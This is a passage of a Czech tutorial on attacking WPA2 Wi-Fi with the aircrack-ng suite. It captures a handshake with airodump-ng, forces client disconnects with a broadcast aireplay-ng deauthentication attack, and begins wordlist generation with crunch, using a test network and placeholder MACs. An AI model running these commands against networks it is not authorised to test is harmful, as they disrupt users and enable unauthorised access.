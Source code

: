 ### 4.2 Interpretace výstupu
```
BSSID              PWR  Beacons    #Data  #/s  CH  MB   ENC  CIPHER AUTH ESSID
00:11:22:33:44:55  -64  100        50     2    6   54   WPA2 CCMP  PSK  Testovaci_Sit
```

Vysvětlení sloupců:
- BSSID: MAC adresa routeru
- PWR: Síla signálu
- Beacons: Počet beacon paketů
- #Data: Počet zachycených datových paketů
- CH: Kanál
- MB: Maximální rychlost
- ENC: Typ šifrování
- CIPHER: Šifrovací algoritmus
- AUTH: Typ autentizace
- ESSID: Název sítě

## 5. Zachytávání handshake

### 5.1 Spuštění zachytávání
```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0
```

Parametry:
- -c 6: Kanál 6
- --bssid: MAC adresa routeru
- -w handshake: Název výstupního souboru

### 5.2 Deauth útok pro získání handshake
```bash
sudo aireplay-ng -0 1 -a 00:11:22:33:44:55 -c FF:FF:FF:FF:FF:FF wlan0
```

Parametry:
- -0: Deauth útok
- 1: Počet deauth paketů
- -a: MAC adresa routeru
- -c: MAC adresa klienta (FF:FF:FF:FF:FF:FF pro broadcast)

### 5.3 Ověření zachyceného handshake
```bash
sudo aircrack-ng handshake-01.cap
```

## 6. Vytvoření wordlistu

### 6.1 Instalace nástroje pro generování wordlistu
```bash
sudo apt-get install crunch
```
